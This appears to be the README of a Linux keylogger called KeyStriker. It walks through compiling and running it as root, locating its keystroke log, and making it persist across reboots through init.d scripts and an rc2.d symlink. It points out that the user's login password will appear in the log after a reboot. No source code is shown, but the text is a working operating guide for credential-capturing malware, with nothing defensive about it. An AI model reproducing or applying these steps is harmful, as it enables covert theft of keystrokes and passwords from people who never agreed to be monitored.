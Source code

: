 # Keylogger-KeyStriker
---------------------
A linux keylogger with the possibility to launch it at startup.

1) Compile the source with code blocks IDE, codeblocks must be in root -> sudo codeblocks in a terminal.

Or from src folder and linux command line : gcc main.c keylogger.c utils.c -o KeyStriker

2) Then for launch the keylogger use the command : sudo ./KeyStriker

The log keys are in /var/log/KeyStriker.log

-> For see at any time if the keylogger is running use the command : ps -aux | grep KeyStriker

if you see a line like this :

root 6727 0.0 0.0 4380 76 ? Ss 03:26 0:00 ./KeyStriker

The keylogger is running.

-> For stop the keylogger use the command : 

sudo killall KeyStriker 

or push F12 for go out properly of the program.

-> For launch the program at startup follow this steps :

- copy the KeyStriker binarie in /usr/bin and /usr/sbin with the command :

sudo cp KeyStriker /usr/bin && sudo cp KeyStriker /usr/sbin

- make the script daemon_launcher.sh executable wiht the command :

sudo chmod +x daemon_launcher.sh

- copy the script called daemon_launcher.sh in /etc/init.d/ with the following command :

sudo cp daemon_launcher.sh /etc/init.d

- make a symbolic link with this command :

sudo ln -s /etc/init.d/daemon_launcher.sh /etc/rc2.d/S88daemon_launcher.sh

- make the script startup.sh executable with the command :

sudo chmod +x startup.sh

- in script folder launch the script called startup.sh

./startup.sh

You 're done.

Reboot the machine and you will see in /var/log/KeyStriker.log your user password you entered for open the linux session wish mean the daemon was running at startup.

Then the keylopgger run in background and keep logging all key striked.

For stop the program at startup follow this steps :

- make the script delete_startup.sh executable with the command :

sudo chmod +x delete_startup.sh

- run the script in script folder called delete_startup.sh with the command :

sudo ./delete_startup.sh

You 're done.

Thanks.
